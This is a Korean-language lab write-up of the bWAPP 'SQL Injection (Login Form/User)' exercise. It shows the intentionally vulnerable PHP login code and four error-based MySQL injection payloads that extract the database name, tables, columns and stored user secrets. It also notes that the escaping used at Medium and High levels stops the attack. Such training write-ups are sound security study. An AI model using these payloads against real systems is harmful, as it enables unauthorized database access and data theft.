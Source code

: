 ```yaml
---
layout: single
title: (bWAPP)SQL Injection (Login Form/User)
categories: bwapp
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/sqli-user-archive/sqli-user/image.png)
- Login Form이 존재

![그림 1-2](/assets/image/bwapp/injection/sqli-user-archive/sqli-user/image2.png)
- '(싱글 쿼터) 입력시 DBMS Error가 발생

![그림 1-3](/assets/image/bwapp/injection/sqli-user-archive/sqli-user/image3.png)
- Error 은 발생하였으나, 일반적인 우회는 되지 않음.

### 검증 로직
```php
137         $login = $_POST["login"];
138         $login = sqli($login);
139 
140         $password = $_POST["password"];
141         $password = sqli($password);
142         $password = hash("sha1", $password, false);
143 
144         $sql = "SELECT * FROM users WHERE login = '" . $login . "'";
145 
146         // echo $sql;
147 
148         $recordset = mysql_query($sql, $link);
149 
150         if(!$recordset)
151         {
152 
153             die("Error: " . mysql_error());
154 
155         }
156 
157         else
158         {
159 
160             $row = mysql_fetch_array($recordset);
161 
162             if($row["login"] && $password == $row["password"])
163             {
164 
165                 // $message = "<font color=\"green\">Welcome " . ucwords($row["login"]) . "...</font>";
166                 $message =  "<p>Welcome <b>" . ucwords($row["login"]) . "</b>, how are you today?</p><p>Your secret: <b>" . ucwords($row["secret"        ]) . "</b></p>";
167                 // $message = $row["login"];
168 
169             }
170 
171             else
172             {
173 
174                 $message = "<font color=\"red\">Invalid credentials!</font>";
175 
176             }
```
- 해당 로직을 구현하는 코드이다.
- 입력받는 값을 보게되면 미완성된 SQL 구문에 첫 쿼리 password 없이 login 값만 쿼리에 추가시켜 완성된 구문을 만든다.
- 그 후 DB에 저장되어 있는 password값과 입력한 password값을 비교하고 login 값과 비교 후 맞으면 로그인 된다.
- 해당 로직은 일바적은 SQL Injection 를 통한 인증 우회는 되지 않는다.
- 이 때 153번줄을 보게 되면 DBMS Error을 출력하괴 되므로 Error Based 공격이 가능하다.

```sql
'and (SELECT 1 FROM (SELECT COUNT(*),concat((SELECT schema_name FROM information_schema.schemata LIMIT 1,1), FLOOR(rand(0)*2))a FROM information_schema.schemata GROUP BY a LIMIT 0,1)b)--
```

![그림 1-4](/assets/image/bwapp/injection/sqli-user-archive/sqli-user/image4.png)

- DB 추출 성공
- 이후 순차적으로 테이블, 컬럼, 데이터를 추출했다.

```sql
'and (SELECT 1 FROM (SELECT COUNT(*),concat((SELECT table_name FROM information_schema.tables where table_schema='bWAPP' LIMIT 3,1), FLOOR(rand(0)*2))a FROM information_schema.tables GROUP BY a LIMIT 0,1)b)--
```

```sql
'and (SELECT 1 FROM (SELECT COUNT(*),concat((SELECT column_name FROM information_schema.columns where table_schema='bWAPP' and table_name='users' LIMIT 1,1), FLOOR(rand(0)*2))a FROM information_schema.columns GROUP BY a LIMIT 0,1)b)--
```

```sql
'and (SELECT 1 FROM (SELECT COUNT(*),concat((SELECT concat(login,0x3a,id,0x3a,secret) from bWAPP.users LIMIT 1,1), FLOOR(rand(0)*2))a FROM information_schema.columns GROUP BY a LIMIT 0,1)b)--
```

![그림 1-5](/assets/image/bwapp/injection/sqli-user-archive/sqli-user/image5.png)
- 성공적으로 데이터를 추출할 수 있다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.

